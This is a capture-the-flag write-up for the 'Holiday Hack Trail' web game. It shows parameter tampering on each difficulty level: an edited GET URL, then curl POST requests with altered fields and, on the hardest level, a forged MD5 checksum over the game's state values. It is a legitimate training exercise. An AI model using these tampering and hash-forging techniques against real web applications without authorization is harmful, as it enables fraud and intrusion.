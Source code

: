# 2. Secondary Objectives
## 2.6. The Holiday Hack Trail
### 2.6.1. Description
I don’t know what happened here but I think part of the conversation with Minty Candycane is missing, speaking with her:
> One is about web application penetration testing. Good luck, and don't get dysentery!

The Holiday Hack Trail Initial page:
![The Holiday Hack Trail Initial page]()

Store page:
![The Holiday Hack Trail Store page]()
	
### 2.6.2. Solution
#### 2.6.2.1. Easy
The parameters are passed via the URL with GET requests, it is possible to alter the distance parameter to 8000 to reach the end. The altered URL will look similar to:
hhc://trail.hhc/trail/?difficulty=0&**distance=8000**&money=5000&pace=0&curmonth=7&curday=1&reindeer=2&runners=2&ammo=100&meds=20&food=400&name0=John&health0=100&cond0=0&causeofdeath0=&deathday0=0&deathmonth0=0&name1=Sally&health1=100&cond1=0&causeofdeath1=&deathday1=0&deathmonth1=0&name2=Anna&health2=100&cond2=0&causeofdeath2=&deathday2=0&deathmonth2=0&name3=Kendra&health3=100&cond3=0&causeofdeath3=&deathday3=0&deathmonth3=0

At this point the interface will show that the distance remaining is 0 as per picture below:
![easy last step]()

Pressing the “GO” button again will take to the winning page:
![easy winning page]()

#### 2.6.2.2. Medium
Here the parameters are sent via POST request, but are injectable in the same manner as the Easy difficulty level. Below the output obtained by sending the altered request with curl:
curl 'https://trail.elfu.org/trail/' -H 'Connection: keep-alive' -H 'Cache-Control: max-age=0' -H 'Origin: https://trail.elfu.org' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36' -H 'Sec-Fetch-User: ?1' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-Mode: nested-navigate' -H 'Referer: https://trail.elfu.org/trail/' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9,it-IT;q=0.8,it;q=0.7' -H 'Cookie: trail-mix-cookie=7f7127a10e92b3a5e77ad1db87cf9ba532463bd4' --data 'pace=2&playerid=JebediahSpringfield&action=go&difficulty=1&money=3000&**distance=8000**&curmonth=8&curday=2&name0=Chris&health0=100&cond0=0&cause0=&deathday0=0&deathmonth0=0&name1=Emmanuel&health1=100&cond1=0&cause1=&deathday1=0&deathmonth1=0&name2=Chloe&health2=100&cond2=0&cause2=&deathday2=0&deathmonth2=0&name3=Jen&health3=100&cond3=0&cause3=&deathday3=0&deathmonth3=0&reindeer=2&runners=2&ammo=50&meds=10&food=184&hash=HASH' --compressed

This resource can be found at <a href='https://trail.elfu.org/fin/?reason=victory&amp;name0=Chris&amp;death0=notdeadyet&amp;name1=Emmanuel&amp;death1=notdeadyet&amp;name2=Chloe&amp;death2=notdeadyet&amp;name3=Jen&amp;death3=notdeadyet&amp;curday=3&amp;curmonth=8&amp;money=3000&amp;reindeer=2&amp;alivecount=4&amp;difficulty=1&amp;hash=91ac54832b5d59c195e196a3ae959e6b&amp;victorytoken={ hash:"f3e41a22416c2397460403fa82d40307f4379da95d41d5e366b55a1e775c5d41", resourceId: "JebediahSpringfield"}'>https://trail.elfu.org/fin/?reason=victory&amp;name0=Chris&amp;death0=notdeadyet&amp;name1=Emmanuel&amp;death1=notdeadyet&amp;name2=Chloe&amp;death2=notdeadyet&amp;name3=Jen&amp;death3=notdeadyet&amp;curday=3&amp;curmonth=8&amp;money=3000&amp;reindeer=2&amp;alivecount=4&amp;difficulty=1&amp;hash=91ac54832b5d59c195e196a3ae959e6b&amp;victorytoken={ hash:"f3e41a22416c2397460403fa82d40307f4379da95d41d5e366b55a1e775c5d41", resourceId: "JebediahSpringfield"}</a>.

Visiting the URL mentioned in the response, below web page is shown:
![medium winning page]()

#### 2.6.2.3. Hard
At hard level parameters are sent via POST requests and each contains an undocumented hash value. Considering that in the Easy level a verification hash was calculated from the number of points, I thought that this hash may have been a numeric value representing the current points acquired. The decrypt tool from md5online.org confirmed that this value is numeric but it was much lower than what I expected.

I noticed that the first “GO” request had always the hash of 1626, I thought that this value was a checksum made up of values in page and I tried to figure out which of these were involved. Checking the difference with a second “GO” request it was possible to identify the below list of parameters involved in the hash creation:
 * money
 * distance
 * curmonth
 * curday
 * reindeer
 * runners
 * ammo
 * meds
 * food

Below the output obtained by submitting a tampered “GO” request with a valid hash via curl:
curl 'https://trail.elfu.org/trail/' -H 'Connection: keep-alive' -H 'Cache-Control: max-age=0' -H 'Origin: https://trail.elfu.org' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36' -H 'Sec-Fetch-User: ?1' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-Mode: nested-navigate' -H 'Referer: https://trail.elfu.org/trail/' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9,it-IT;q=0.8,it;q=0.7' -H 'Cookie: trail-mix-cookie=e543662c928fc61549bbfe167729d528f7a270ea' --data 'pace=0&playerid=02554611-d73c-4881-baa7-9549350ec50b&action=go&difficulty=2&money=1500&**distance=8000**&curmonth=9&curday=1&name0=Sam&health0=100&cond0=0&cause0=&deathday0=0&deathmonth0=0&name1=Sally&health1=100&cond1=0&cause1=&deathday1=0&deathmonth1=0&name2=Joseph&health2=100&cond2=0&cause2=&deathday2=0&deathmonth2=0&name3=Evie&health3=100&cond3=0&cause3=&deathday3=0&deathmonth3=0&reindeer=2&runners=2&ammo=10&meds=2&food=100&**hash=649d45bf179296e31731adfd4df25588**' --compressed

This resource can be found at <a href='https://trail.elfu.org/fin/?reason=victory&amp;name0=Sam&amp;death0=notdeadyet&amp;name1=Sally&amp;death1=notdeadyet&amp;name2=Joseph&amp;death2=notdeadyet&amp;name3=Evie&amp;death3=notdeadyet&amp;curday=2&amp;curmonth=9&amp;money=1500&amp;reindeer=2&amp;alivecount=4&amp;difficulty=2&amp;hash=57ec46350ce6dbd9881127dd6d102cfb&amp;victorytoken={ hash:"4f112f9623bbac3e927d0c92be2fece33473bce3ed35383ae979c214d39fe43e", resourceId: "02554611-d73c-4881-baa7-9549350ec50b"}'>https://trail.elfu.org/fin/?reason=victory&amp;name0=Sam&amp;death0=notdeadyet&amp;name1=Sally&amp;death1=notdeadyet&amp;name2=Joseph&amp;death2=notdeadyet&amp;name3=Evie&amp;death3=notdeadyet&amp;curday=2&amp;curmonth=9&amp;money=1500&amp;reindeer=2&amp;alivecount=4&amp;difficulty=2&amp;hash=57ec46350ce6dbd9881127dd6d102cfb&amp;victorytoken={ hash:"4f112f9623bbac3e927d0c92be2fece33473bce3ed35383ae979c214d39fe43e", resourceId: "02554611-d73c-4881-baa7-9549350ec50b"}</a>.

Visiting the URL mentioned in the response, below web page is shown:
![hard winning page]()

### 2.6.3. Afterwords
Speaking again with Minty Candycane:
>You made it - congrats! Have you played with the key grinder in my room? Check it out! It turns out: if you have a good image of a key, you can physically copy it. Maybe you'll see someone hopping around with a key here on campus. Sometimes you can find it in the Network tab of the browser console. Deviant has a great talk on it at this year's Con. He even has a collection of key bitting templates for common vendors like Kwikset, Schlage, and Yale.
